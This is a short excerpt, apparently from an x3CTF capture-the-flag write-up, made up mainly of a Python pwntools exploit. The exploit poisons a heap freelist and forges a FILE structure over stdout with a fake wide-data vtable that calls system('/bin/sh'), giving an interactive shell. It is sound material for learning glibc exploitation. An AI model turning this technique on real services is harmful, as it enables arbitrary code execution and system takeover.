 ```python
to_write = target ^ (b>>12)

input()
add(10,0xf8)
delete(6)
edit(10,p64(to_write))

add(11,0xf8)
add(12,0xf8)

stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = 0x00000000001636a0 + libc.address

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout+0x8*7
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

edit(12,bytes(fake))
p.interactive()
```

![image](/assets/images/x3CTF/1.png)
